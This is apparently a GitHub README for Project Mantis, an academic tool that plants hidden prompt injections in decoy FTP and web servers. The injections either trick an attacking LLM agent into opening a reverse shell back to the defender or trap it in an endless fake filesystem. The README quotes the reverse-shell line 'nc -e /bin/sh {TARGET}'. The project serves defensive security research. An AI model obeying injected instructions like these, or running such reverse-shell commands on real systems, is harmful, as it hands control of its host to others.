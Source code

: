 <p align="center">
 <img height="150" src="assets/logo.png"> 
</p>

# Project Mantis:  *Hacking Back the AI-Hacker*
## Prompt Injection as a Defense Against LLM-driven Cyberattacks

🔨Working on transforming Mantis from an academic PoC to a full-fledged and robust defensive tool for your assets. 🪚  

⚠️ Until an official release, this code might undergo severe refactoring and breaking updates. ⚠️

#### Next Milestones:

- [x] Multi-threading for decoys
- [ ]  Advanced agent tracking capabilities
- [x]  Web-based decoy
- [ ]  Refactoring Mantis as a Daemon/Controller interface

## Install Mantis

```
pip install -r requirements.txt
```

## Run Mantis with pre-made configurations
Various pre-made configurations are available in the ```./confs``` directory.

### Hack-back
An example of a Mantis configuration file is given in ```./confs/ftp_hackback_rshell.py```. What this configuration means and how you can choose yours will be explained later in this README file. This can be run using the ```mantis_run.py``` script:
```
python mantis_run.py confs.ftp_hackback_rshell
```
Running Mantis with ```confs/ftp_hackback_rshell.py``` will spawn an FTP decoy server with anonymous credentials that aims to trick the attacking LLM-agent into opening a reverse shell via (invisible) prompt injections. When triggered, it spawns a reverse shell listener on the specified port for testing (⚠️ this configuration is not intended for production ⚠️). 


A variation of the above that uses a SQL-Injection-vulnerable-webapp as decoy can be run via:

```
python mantis_run.py confs.web_hackback_rshell
```

In these examples, we use a very simple reverse shell initiator: ```nc -e /bin/sh {TARGET} ...```. This can be changed by altering the variable ```REVERSE_SHELL_INITIATOR``` in the configuration file (e.g., ```confs/ftp_hackback_rshell.py```), where the parameter ```{TARGET}``` is the IP of the host (which is set automatically by Mantis). If you want to automate the attacker's post-exploitation, you can modify or replace the class ```Mantis.Decoys.reverse_shell_listener.ReverseShellListenerTest```. More on how the configuration files work later.

### Tarpit
Another example is ```./confs/ftp_filesystem_tarpit.py```:

```
python mantis_run.py confs.ftp_filesystem_tarpit
```

This starts a fake FTP server with an infinitely deep filesystem and tailored (invisible) prompt injections to keep the attacking LLM agent trapped. The complexity of the tarpit can be set via the ```EXPECTED_NUMBER_OF_DIRECTORIES``` variable in ```./confs/ftp_filesystem_tarpit.py```.

## Create your own configuration
TODO

### Decoys
TODO

## Create your own decoy
TODO

# White paper
A general description of Mantis's internal working is given in this [paper](https://arxiv.org/abs/2410.20911). Follow a description of the material necessary to replicate our evaluation.


## Testing Mantis on a remote machine for evaluation
To simulate the deployment of Mantis on a remote machine (e.g., a HackTheBox CTF) as done in the paper, it is enough to run ```./mantis_start_with_forward_proxy.py``` instead of ```./mantis_start.py```. This main takes two additional arguments:

* *destination_ip*: The IP of the remote machine
* *ports*: List of ports to forward

For instance, to run Mantis on the HackTheBox's CTF *Dancing*, you can run this:
```
python mantis_start_with_forward_proxy.py confs.ftp_hackback_rshell 10.129.70.160 --ports 135 139 445
```

Here ```10.129.70.160``` is the IP assigned by HackTheBox (put there yours), and ```135 139 445``` are the open ports on *Dancing*. (If you use an HackTheBox machine as in the example, remember to start the VPN on your host first.)

Now, attacking your host machine, your attacking the remote machine.


## How to cite Mantis:

```
@misc{pasquini2024hackingaihackerpromptinjection,
      title={Hacking Back the AI-Hacker: Prompt Injection as a Defense Against LLM-driven Cyberattacks}, 
      author={Dario Pasquini and Evgenios M. Kornaropoulos and Giuseppe Ateniese},
      year={2024},
      eprint={2410.20911},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2410.20911}, 
}
```
